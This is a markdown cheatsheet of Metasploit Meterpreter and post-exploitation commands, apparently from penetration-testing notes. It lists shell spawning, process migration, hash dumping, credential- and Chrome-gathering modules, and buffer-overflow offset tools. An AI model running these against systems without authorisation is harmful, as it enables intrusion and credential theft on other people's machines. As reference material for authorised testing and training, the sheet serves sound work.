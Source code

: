 ## Meterpreter — quick cheatsheet

Once you have a Meterpreter session (`sessions -i <id>`):

- `sysinfo` — host info
    
- `getuid` — user context
    
- `ps` — list processes
    
- `migrate <pid>` — move to another process
    
- `upload <local> <remote>` / `download <remote> <local>`
    
- `execute -f cmd.exe -i -t` — spawn a shell
    
- `run post/multi/recon/local_exploit_suggester` — suggest local exploits
    
- `hashdump` — dump SAM/NTHash (requires privileges & proper modules)
    
- `privs` / `getprivs` — list privileges
    

> [!note] Always validate legality and scope before running post modules or dumping credentials.

---

## Post-exploitation modules

Use `post/*` modules to gather data and persist, for example:

- `post/windows/gather/enum_logged_on_users`
    
- `post/windows/gather/credentials`
    
- `post/multi/manage/shell_to_meterpreter` — upgrade basic shell to Meterpreter (if conditions allow)
    

Example:

```text
use post/windows/gather/enum_chrome
set SESSION 1
run
```

---

## Exploit development helpers

- `pattern_create.rb` and `pattern_offset.rb` — create/find offsets for buffer overflow exploit dev.
    
    - Create: `pattern_create -l 2000`
        
    - Find offset: `pattern_offset -q 0x41326341 -l 2000`
        
- `gdb` / `pwndbg` / `radare2` complement exploit dev efforts.
    